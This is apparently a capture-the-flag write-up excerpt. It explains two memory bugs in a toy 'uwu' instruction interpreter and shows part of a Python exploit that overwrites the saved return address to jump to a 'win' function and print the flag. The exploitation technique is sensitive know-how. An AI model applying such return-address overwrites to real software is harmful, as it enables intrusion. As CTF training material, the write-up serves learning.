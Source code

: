 ```
case 'o':
    pointer--;
    if (pointer > DATA_LEN) {
        printf("Error: out of bounds\n");
        print_remaining_and_exit(input, i);
    }
break;
```

The second bug is it didn't check for out of bound when read and write value.

```
case '@':
    printf("\npointer: %d\ndata: %d\n", pointer, data[pointer]);
    break;
case '>':
    printf("\nInput: ");
    scanf(" %d", &data[pointer]);
    break;
```

So, lets combine those two bug. first, lets move the variable pointer to pointer's address (where pointer is on the stack) . 

Then, use write pointer's value to RIP offset,

finally. read RIP address and write RIP address to function win. After execution finish, the binary will jump to `win` and print out the flag

part of my exploit.py
```
class uwu():
    right = "OwO"
    left = "owo"
    read = "@w@"
    write = ">w<"
    plus = "UwU"
    minus = "QwQ"
    def __init__(self):
        self.instructions = []

    def add(self,*args):
        self.instructions.extend(args)
    
    def add_list(self,args):
        self.instructions.extend(args)
    
    def output(self):
        return " ".join(self.instructions)

main_addr = exe.sym["main"]
log_print("main addr", hex(main_addr))
vuln_addr = exe.sym["vuln"]
log_print("vuln addr", hex(vuln_addr))
win_addr = exe.sym["win"]
log_print("win addr", hex(win_addr))

log_print(hex(vuln_addr-win_addr))
# payload = uwu()
# payload.add(uwu.right,uwu.plus,uwu.right,uwu.plus,uwu.right,uwu.plus,)
# print(payload.output())

payload = uwu()
# 4 byte padding
payload.add_list([uwu.left]*((0x424-0x410)//4 -1))
payload.add(uwu.read)
```